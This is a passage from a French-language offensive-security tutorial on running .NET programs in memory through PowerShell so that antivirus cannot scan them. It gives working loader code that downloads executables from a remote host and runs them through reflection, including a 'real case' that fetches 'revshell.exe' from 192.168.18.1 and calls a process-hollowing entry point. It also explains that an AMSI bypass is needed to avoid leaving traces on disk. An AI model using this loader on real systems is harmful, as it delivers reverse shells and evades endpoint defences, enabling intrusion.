 Une fois notre code compilé nous allons maintenant le charger en mémoire :

```powershell
# URL de l'exécutable
$url = "http://example.com/HelloWorld.exe"

# Télécharger le fichier dans un tableau de bytes
$response = Invoke-WebRequest -Uri $url -UseBasicParsing
$bytes = $response.Content

# Charger l'assembly .NET en mémoire
$assembly = [System.Reflection.Assembly]::Load([System.Text.Encoding]::UTF8.GetBytes($bytes))
# Obtenir le type contenant la méthode à exécuter
$type = $assembly.GetType("HelloWorldApp.Program")
```

Une fois qu'on maîtrise le type contenant la méthode à exécuter, nous pouvons maintenant appeler les fonctions que nous avons défini précedemment.

```powershell
# Appeler une méthode spécifique avec des paramètres
# Appel de SayHello("John")
$method = $type.GetMethod("SayHello")
$method.Invoke($null, @("John"))

# Appeler une méthode avec un retour (AddNumbers)
$methodAdd = $type.GetMethod("AddNumbers")
$result = $methodAdd.Invoke($null, @(5, 10))
Write-Host "Le résultat de AddNumbers(5, 10) est : $result"
```

Et voilà ! On a exécuter notre programme C# en mémoire , en combinant avec le bypass AMSI, l'antivirus ne pourra pas scanner le contenu.

```powershell
Hello, John!
Le résultat de AddNumbers(5, 10) est : 15
```

## 3.2. Cas réel

### 3.2.1. Loader

Le code suivant permettra d'exécuter en mémoire notre reverse shell :

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.18.1/revshell.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[ProcessHollowing.Program]::Main("".Split())
```

### 3.2.2. Bypass Amsi dans le DOTNET

Lorsqu'une application est exécutée en mémoire dans powershell, le contenu de l'application est envoyé à l'antivirus local via l'AMSI. De ce fait, il faut outrepasser l'AMSI dans ce contexte pour pouvoir exécuter notre application sans laisser de trace sur le disque.
